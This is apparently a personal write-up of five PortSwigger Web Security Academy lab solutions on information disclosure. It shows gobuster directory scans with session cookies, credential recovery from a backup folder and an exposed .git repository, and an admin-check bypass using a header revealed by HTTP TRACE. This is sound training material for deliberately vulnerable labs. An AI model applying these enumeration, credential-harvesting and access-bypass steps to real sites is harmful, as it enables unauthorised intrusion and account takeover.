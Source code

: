 # Information Disclosure

## Lab 1: Error Messages

To solve this lab, find the version of a third-part framework used.

There's a `productId` parameter passed that contains an integer. If replaced by a string, it shows the error message:

![](../../.gitbook/assets/portswigger-information-writeups-image.png)

`Apache Struts 2 2.3.31` solves the lab.

## Lab 2: Debug Page

To solve this lab, find the `SECRET_KEY` variable. This lab left a `phpinfo.php` file on the website:

![](../../.gitbook/assets/portswigger-information-writeups-image-1.png)

![](../../.gitbook/assets/portswigger-information-writeups-image-2.png)

Just search for `SECRET_KEY` within the page above.

## Lab 3: Backup Files

To solve this lab, find the hard-coded database password.

I ran a `gobuster` scan on the site:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -u https://0aa600a30372cc9e8148168900cb007a.web-security-academy.net -H 'Cookie: session=RmNy6J8CwjXBdsoYsPgqghJa4agjIKWc'
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://0aa600a30372cc9e8148168900cb007a.web-security-academy.net
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/analytics            (Status: 200) [Size: 0]
/backup               (Status: 200) [Size: 435]
```

The `/backup` directory contains this:

![](../../.gitbook/assets/portswigger-information-writeups-image-3.png)

Within this, there's some Java code for stuff, and it contains the password:

![](../../.gitbook/assets/portswigger-information-writeups-image-4.png)

## Lab 4: Authentication Bypass

To solve this lab, login as the admin and delete `carlos`. When trying to visit the `/admin` directory, I see this:

![](../../.gitbook/assets/portswigger-information-writeups-image-5.png)

This gives me an idea to exploit SSRF. Since this lab is about information disclosure, I tried using TRACE to view debug information, and it worked!

This was the response:

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 614

TRACE /admin HTTP/1.1
Host: 0aa600d304d3392386c44517001f007e.web-security-academy.net
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate, br
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: none
sec-fetch-user: ?1
te: trailers
cookie: session=cookie
Content-Length: 0
X-Custom-IP-Authorization: <TRUNCATED>
```

There's an X-Custom-IP-Authorization header. I can use this to bypass the 'local user' check.

![](../../.gitbook/assets/portswigger-information-writeups-image-6.png)

I can then visit `/admin/delete?username=carlos` to delete the user (this endpoint is found within the HTML for `/admin`).

## Lab 5: Version Control History

There's information disclosure via version control history. When running a `gobuster` scan, I found a `.git` repository.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -u https://0ac2001804901e37806599da00eb00b0.web-security-academy.net -H 'Cookie: session=d893aVyPRCvqJphQnPppX4O1m5Dbzg1I'
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://0ac2001804901e37806599da00eb00b0.web-security-academy.net
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/.git                 (Status: 200) [Size: 1201]
/.git/index           (Status: 200) [Size: 225]
/.git/logs/           (Status: 200) [Size: 548]
/.git/config          (Status: 200) [Size: 157]
```

I can install the entire repository using `wget -r https://LAB.web-security-academy.net/.git`. Afterwards, I can take a look at the `git log` output to see any changes that were made to the repository.

![](../../.gitbook/assets/portswigger-information-writeups-image-7.png)

Using this password, I can then login as the admin and delete `carlos`.